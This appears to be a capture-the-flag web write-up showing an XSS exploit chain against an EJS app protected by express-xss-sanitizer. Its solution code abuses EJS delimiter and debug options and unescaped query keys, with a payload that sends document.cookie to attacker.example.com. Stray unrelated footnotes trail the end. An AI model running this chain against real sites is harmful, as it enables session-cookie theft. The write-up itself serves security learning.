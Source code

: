```javascript
// Mitigation 4:
"--experimental-permission",
`--allow-fs-read=${__dirname}/src`,
```

The goal is to bypass the above mitigations and gain an XSS.

### Solution

There are various approaches to solving this challenge. My solution is one of them. If you are interested in other solutions, join the CTF Discord and see `#web` channel.

My solution is:
```javascript
const jsPayload = `location = "https://attacker.example.com?" + document.cookie`;

const srcUrl = `/?${new URLSearchParams({
  filename: "render.dist.js",
  "settings[view options][openDelimiter]": "__require() {\n",
  "settings[view options][closeDelimiter]": "||",
  "settings[view options][delimiter][]": "",
  mod: jsPayload,
})}`;

const evilUrl = `http://web:3000?${new URLSearchParams({
  "filename[href]": "x",
  "filename[origin]": "x",
  "filename[protocol]": "file:",
  "filename[hostname]": "",
  "filename[pathname]": "index.ejs",
  [`filename[<script src=${srcUrl}></script>]`]: "",
  "settings[view options][debug]": "1",
})}`;
```

For the first URL `srcUrl`:

- It abuses the following part of `render.dist.js`:
    ```javascript
    /* snip */
    var __commonJS = (cb, mod) => function __require() {
      return mod || (0, cb[__getOwnPropNames(cb)[0]])((mod = { exports: {} }).exports, mod), mod.exports;
    };
    /* snip */
    ```
- By the EJS options, it executes `return mod` as JavaScript and the value of `mod` is rendered as a page.
- Thus, the string `jsPayload` is rendered.

For the second URL `evilUrl`:

- As an important fact, [express-xss-sanitizer](https://github.com/AhmedAdelFahim/express-xss-sanitizer/) does not escape keys of request queries.
    - ref. https://github.com/AhmedAdelFahim/express-xss-sanitizer/blob/v1.1.6/lib/sanitize.js#L31
- `ejs.renderFile` allows a URL-like object as a file path.
    - `ejs.renderFile` uses `fs.readFileSync` internally.
        - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L87
    - `fs.readFileSync` allows a URL-like object as a file path.
        - I first saw this bypass technique at simplewaf in corCTF 2022
        - ref. https://brycec.me/posts/corctf_2022_challenges#simplewaf
- `debug` option renders `src`.
    - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L646-L648
    - `src` includes `JSON.stringify(opts.filename)`.
        - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L584
        - ref. https://github.com/mde/ejs/blob/v3.1.9/lib/ejs.js#L625

[^hidden-note-01]: https://arxiv.org/pdf/2106.05123.pdf
[^hidden-note-02]: Strictly speaking, there are more conditions for the shuffle.
  [CUSTOM_KEY]: true;
  [CUSTOM_KEY]: true;
[^node-ppjail-01]: That's because the default value for `target` option of `tsc` is ES3. ES3 is a very old ECMAScript version.<br>ref. https://www.typescriptlang.org/tsconfig/#target